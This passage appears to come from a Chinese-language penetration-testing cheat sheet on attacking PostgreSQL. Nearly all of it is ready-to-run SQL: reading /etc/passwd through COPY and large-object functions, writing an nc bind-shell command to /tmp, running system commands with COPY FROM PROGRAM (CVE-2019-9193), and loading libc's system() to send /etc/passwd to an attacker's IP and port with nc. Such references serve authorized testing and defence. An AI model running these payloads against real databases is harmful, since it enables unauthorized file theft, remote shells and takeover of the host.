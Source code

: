 ```sql
CREATE TABLE temp(t TEXT);
COPY temp FROM '/etc/passwd';
SELECT * FROM temp limit 1 offset 0;
```

```sql
SELECT lo_import('/etc/passwd'); -- 将文件创建为大对象并返回 OID
SELECT lo_get(16420); -- 使用上述返回的 OID
SELECT * from pg_largeobject; -- 或获取所有大对象及其数据
```

## PostgreSQL 文件写入

```sql
CREATE TABLE pentestlab (t TEXT);
INSERT INTO pentestlab(t) VALUES('nc -lvvp 2346 -e /bin/bash');
SELECT * FROM pentestlab;
COPY pentestlab(t) TO '/tmp/pentestlab';
```

或一行：

```sql
COPY (SELECT 'nc -lvvp 2346 -e /bin/bash') TO '/tmp/pentestlab';
```

```sql
SELECT lo_from_bytea(43210, 'your file data goes in here'); -- 使用 OID 43210 和一些数据创建一个大对象
SELECT lo_put(43210, 20, 'some other data'); -- 在偏移量 20 处向大对象追加数据
SELECT lo_export(43210, '/tmp/testexport'); -- 将数据导出到 /tmp/testexport
```

## PostgreSQL 命令执行

### CVE-2019–9193

如果可以直接访问数据库，则可以从 [Metasploit](https://github.com/rapid7/metasploit-framework/pull/11598) 使用，否则需要手动执行以下 SQL 查询。 

```SQL
DROP TABLE IF EXISTS cmd_exec;          -- [可选] 如果表已存在，删除要使用的表
CREATE TABLE cmd_exec(cmd_output text); -- 创建要保存命令输出的表
COPY cmd_exec FROM PROGRAM 'id';        -- 通过 COPY FROM PROGRAM 函数运行系统命令
SELECT * FROM cmd_exec;                 -- [可选] 查看结果
DROP TABLE IF EXISTS cmd_exec;          -- [可选] 移除表
```

![https://cdn-images-1.medium.com/max/1000/1*xy5graLstJ0KysUCmPMLrw.png](https://cdn-images-1.medium.com/max/1000/1*xy5graLstJ0KysUCmPMLrw.png)

### 使用 libc.so.6

```sql
CREATE OR REPLACE FUNCTION system(cstring) RETURNS int AS '/lib/x86_64-linux-gnu/libc.so.6', 'system' LANGUAGE 'c' STRICT;
SELECT system('cat /etc/passwd | nc <attacker IP> <attacker port>');
```
